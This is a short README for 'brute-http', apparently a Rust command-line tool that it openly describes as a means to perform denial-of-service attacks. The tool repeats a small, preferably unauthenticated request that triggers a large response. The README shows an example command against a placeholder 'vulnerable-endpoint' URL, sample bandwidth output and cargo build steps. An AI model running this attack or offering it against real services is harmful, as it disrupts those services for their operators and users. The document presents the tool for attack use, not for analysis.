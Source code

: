 # brute-http

Use to perform DoS attack on target. The aim is to find a small request (unauthenticated is
prefered) generating a large response.

For instance:
```
./brute-http -r small-request-big-response http://vulnerable-endpoint.me/api/test
Up  153.125 Kbps | Down   10.105 Mbps |      NaN msec/response
Up  172.266 Kbps | Down  128.885 Mbps | 1731.178 msec/response
Up  199.062 Kbps | Down  123.160 Mbps | 1483.365 msec/response
Up  160.781 Kbps | Down  101.161 Mbps | 1704.667 msec/response
Up  237.344 Kbps | Down  122.795 Mbps | 1748.677 msec/response
Up  222.031 Kbps | Down  147.184 Mbps | 1295.207 msec/response
Up  245.000 Kbps | Down  134.359 Mbps | 1298.641 msec/response
Up  218.203 Kbps | Down  121.234 Mbps | 1422.404 msec/response
Up  195.234 Kbps | Down  119.027 Mbps | 1600.725 msec/response
Up  195.234 Kbps | Down  123.955 Mbps | 1430.294 msec/response
Up  195.234 Kbps | Down  130.125 Mbps | 1351.863 msec/response
^C
```

## Build

Just use cargo:

```bash
cargo build --release
ls -lh ${CARGO_TARGET_DIR:-target}/release/brute-http
```
